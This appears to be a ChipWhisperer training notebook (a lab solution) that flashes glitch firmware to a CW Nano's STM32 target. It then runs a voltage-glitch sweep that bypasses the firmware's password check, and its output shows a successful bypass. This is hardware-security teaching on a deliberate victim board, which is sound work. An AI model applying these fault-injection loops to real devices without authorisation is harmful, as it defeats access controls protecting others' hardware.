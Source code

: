 Part 2, Topic 2: Voltage Glitching to Bypass Password
=====================================================



**SUMMARY:** *We’ve seen how voltage glitching can be used to corrupt
calculations, just like clock glitching. Let’s continue on and see if it
can also be used to break past a password check.*

**LEARNING OUTCOMES:**

-  Applying previous glitch settings to new firmware
-  Checking for success and failure when glitching

Firmware
--------

Again, we’ve already covered this lab, so it’ll be mostly up to you!


**In [1]:**

.. code:: ipython3

    SCOPETYPE = 'CWNANO'
    PLATFORM = 'CWNANO'


**In [2]:**

.. code:: bash

    %%bash -s "$PLATFORM"
    cd ../../../hardware/victims/firmware/simpleserial-glitch
    make PLATFORM=$1 CRYPTO_TARGET=NONE


**Out [2]:**



.. parsed-literal::

    SS\_VER set to SS\_VER\_1\_1
    rm -f -- simpleserial-glitch-CWNANO.hex
    rm -f -- simpleserial-glitch-CWNANO.eep
    rm -f -- simpleserial-glitch-CWNANO.cof
    rm -f -- simpleserial-glitch-CWNANO.elf
    rm -f -- simpleserial-glitch-CWNANO.map
    rm -f -- simpleserial-glitch-CWNANO.sym
    rm -f -- simpleserial-glitch-CWNANO.lss
    rm -f -- objdir/\*.o
    rm -f -- objdir/\*.lst
    rm -f -- simpleserial-glitch.s simpleserial.s stm32f0\_hal\_nano.s stm32f0\_hal\_lowlevel.s
    rm -f -- simpleserial-glitch.d simpleserial.d stm32f0\_hal\_nano.d stm32f0\_hal\_lowlevel.d
    rm -f -- simpleserial-glitch.i simpleserial.i stm32f0\_hal\_nano.i stm32f0\_hal\_lowlevel.i
    .
    Welcome to another exciting ChipWhisperer target build!!
    arm-none-eabi-gcc.exe (GNU Arm Embedded Toolchain 9-2020-q2-update) 9.3.1 20200408 (release)
    Copyright (C) 2019 Free Software Foundation, Inc.
    This is free software; see the source for copying conditions.  There is NO
    warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
    
    .
    Compiling C: simpleserial-glitch.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial-glitch.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/simpleserial-glitch.o.d simpleserial-glitch.c -o objdir/simpleserial-glitch.o 
    .
    Compiling C: .././simpleserial/simpleserial.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/simpleserial.o.d .././simpleserial/simpleserial.c -o objdir/simpleserial.o 
    .
    Compiling C: .././hal/stm32f0\_nano/stm32f0\_hal\_nano.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f0\_hal\_nano.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f0\_hal\_nano.o.d .././hal/stm32f0\_nano/stm32f0\_hal\_nano.c -o objdir/stm32f0\_hal\_nano.o 
    .
    Compiling C: .././hal/stm32f0/stm32f0\_hal\_lowlevel.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f0\_hal\_lowlevel.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f0\_hal\_lowlevel.o.d .././hal/stm32f0/stm32f0\_hal\_lowlevel.c -o objdir/stm32f0\_hal\_lowlevel.o 
    .
    Assembling: .././hal/stm32f0/stm32f0\_startup.S
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -x assembler-with-cpp -mthumb -mfloat-abi=soft -ffunction-sections -DF\_CPU=7372800 -Wa,-gstabs,-adhlns=objdir/stm32f0\_startup.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ .././hal/stm32f0/stm32f0\_startup.S -o objdir/stm32f0\_startup.o
    .
    Linking: simpleserial-glitch-CWNANO.elf
    arm-none-eabi-gcc -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_1 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial-glitch.o -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/simpleserial-glitch-CWNANO.elf.d objdir/simpleserial-glitch.o objdir/simpleserial.o objdir/stm32f0\_hal\_nano.o objdir/stm32f0\_hal\_lowlevel.o objdir/stm32f0\_startup.o --output simpleserial-glitch-CWNANO.elf --specs=nano.specs --specs=nosys.specs -T .././hal/stm32f0\_nano/LinkerScript.ld -Wl,--gc-sections -lm -mthumb -mcpu=cortex-m0  -Wl,-Map=simpleserial-glitch-CWNANO.map,--cref   -lm  
    .
    Creating load file for Flash: simpleserial-glitch-CWNANO.hex
    arm-none-eabi-objcopy -O ihex -R .eeprom -R .fuse -R .lock -R .signature simpleserial-glitch-CWNANO.elf simpleserial-glitch-CWNANO.hex
    .
    Creating load file for EEPROM: simpleserial-glitch-CWNANO.eep
    arm-none-eabi-objcopy -j .eeprom --set-section-flags=.eeprom="alloc,load" \
    --change-section-lma .eeprom=0 --no-change-warnings -O ihex simpleserial-glitch-CWNANO.elf simpleserial-glitch-CWNANO.eep \|\| exit 0
    .
    Creating Extended Listing: simpleserial-glitch-CWNANO.lss
    arm-none-eabi-objdump -h -S -z simpleserial-glitch-CWNANO.elf > simpleserial-glitch-CWNANO.lss
    .
    Creating Symbol Table: simpleserial-glitch-CWNANO.sym
    arm-none-eabi-nm -n simpleserial-glitch-CWNANO.elf > simpleserial-glitch-CWNANO.sym
    Size after:
       text	   data	    bss	    dec	    hex	filename
       4740	     12	   1292	   6044	   179c	simpleserial-glitch-CWNANO.elf
    +--------------------------------------------------------
    + Default target does full rebuild each time.
    + Specify buildtarget == allquick == to avoid full rebuild
    +--------------------------------------------------------
    +--------------------------------------------------------
    + Built for platform CWNANO Built-in Target (STM32F030) with:
    + CRYPTO\_TARGET = NONE
    + CRYPTO\_OPTIONS = 
    +--------------------------------------------------------
    



**In [3]:**

.. code:: ipython3

    %run "../../Setup_Scripts/Setup_Generic.ipynb"


**Out [3]:**



.. parsed-literal::

    Serial baud rate = 38400
    INFO: Found ChipWhisperer😍
    



**In [4]:**

.. code:: ipython3

    fw_path = "../../../hardware/victims/firmware/simpleserial-glitch/simpleserial-glitch-{}.hex".format(PLATFORM)
    cw.program_target(scope, prog, fw_path)


**Out [4]:**



.. parsed-literal::

    Serial baud rate = 115200
    Detected known STMF32: STM32F03xx4/03xx6
    Extended erase (0x44), this can take ten seconds or more
    Attempting to program 4751 bytes at 0x8000000
    STM32F Programming flash...
    STM32F Reading flash...
    Verified flash OK, 4751 bytes
    Serial baud rate = 38400
    



**In [5]:**

.. code:: ipython3

    scope.io.clkout = 7.5E6
    target.baud = 38400*7.5/7.37
    def reboot_flush():            
        scope.io.nrst = False
        time.sleep(0.05)
        scope.io.nrst = "high_z"
        time.sleep(0.05)
        #Flush garbage too
        target.flush()


**Out [5]:**



.. parsed-literal::

    Serial baud rate = 39077.34056987788
    



**In [6]:**

.. code:: ipython3

    #Do glitch loop
    reboot_flush()
    pw = bytearray([0x74, 0x6F, 0x75, 0x63, 0x68])
    target.simpleserial_write('p', pw)
    
    val = target.simpleserial_read_witherrors('r', 1, glitch_timeout=10)#For loop check
    valid = val['valid']
    if valid:
        response = val['payload']
        raw_serial = val['full_response']
        error_code = val['rv']
    
    print(val)


**Out [6]:**



.. parsed-literal::

    {'valid': True, 'payload': CWbytearray(b'01'), 'full\_response': 'r01\n', 'rv': 1}
    



**In [7]:**

.. code:: ipython3

    import matplotlib.pylab as plt
    import chipwhisperer.common.results.glitch as glitch
    gc = glitch.GlitchController(groups=["success", "reset", "normal"], parameters=["repeat", "ext_offset"])
    gc.display_stats()


**Out [7]:**












**In [8]:**

.. code:: ipython3

    %matplotlib inline
    import matplotlib.pylab as plt
    fig = plt.figure()


**Out [8]:**


.. parsed-literal::

    <Figure size 432x288 with 0 Axes>



**In [9]:**

.. code:: ipython3

    from importlib import reload
    import chipwhisperer.common.results.glitch as glitch
    from tqdm.notebook import tqdm
    import re
    import struct
    
    g_step = 1
    
    gc.set_global_step(g_step)
    gc.set_range("repeat", 1, 7)
    gc.set_range("ext_offset", 1, 30)
    
    gc.set_global_step(1)
    
    reboot_flush()
    sample_size = 1
    scope.glitch.repeat = 0
    broken = False
    
    for glitch_settings in gc.glitch_values():
        scope.glitch.repeat = glitch_settings[0]
        scope.glitch.ext_offset = glitch_settings[1]
        if broken:
            break
        for i in range(5):
            scope.arm()
            target.simpleserial_write('p', bytearray([0]*5))
            ret = scope.capture()
    
            val = target.simpleserial_read_witherrors('r', 1, glitch_timeout=10)#For loop check
            if ret:
                print('Timeout - no trigger')
                gc.add("reset", (scope.glitch.repeat, scope.glitch.ext_offset))
                plt.plot(scope.glitch.ext_offset, scope.glitch.repeat, 'xr', alpha=1)
                fig.canvas.draw()
    
                #Device is slow to boot?
                reboot_flush()
    
            else:
                if val['valid'] is False:
                    gc.add("reset", (scope.glitch.repeat, scope.glitch.ext_offset))
                    plt.plot(scope.glitch.ext_offset, scope.glitch.repeat, 'xr', alpha=1)
                    fig.canvas.draw()
                    reboot_flush()
                else:
                    if val['rv'] == 1: #for loop check
                        broken = True
                        gc.add("success", (scope.glitch.repeat, scope.glitch.ext_offset))
                        print(val)
                        print(val['payload'])
                        print(scope.glitch.repeat, scope.glitch.ext_offset)
                        print("🐙", end="")
                        plt.plot(scope.glitch.ext_offset, scope.glitch.repeat, '+g', alpha=1)
                        fig.canvas.draw()
                        break
                    else:
                        gc.add("normal", (scope.glitch.repeat, scope.glitch.ext_offset))


**Out [9]:**



.. parsed-literal::

    {'valid': True, 'payload': CWbytearray(b'01'), 'full\_response': 'r01\n', 'rv': 1}
    CWbytearray(b'01')
    5 9
    🐙



.. image:: img/CWNANO-CWNANO-courses_fault101_SOLN_Fault2_2B-VoltageGlitchingwithCWNanotoBypassPassword_12_1.png



**In [10]:**

.. code:: ipython3

    scope.dis()
    target.dis()


**In [11]:**

.. code:: ipython3

    assert broken is True
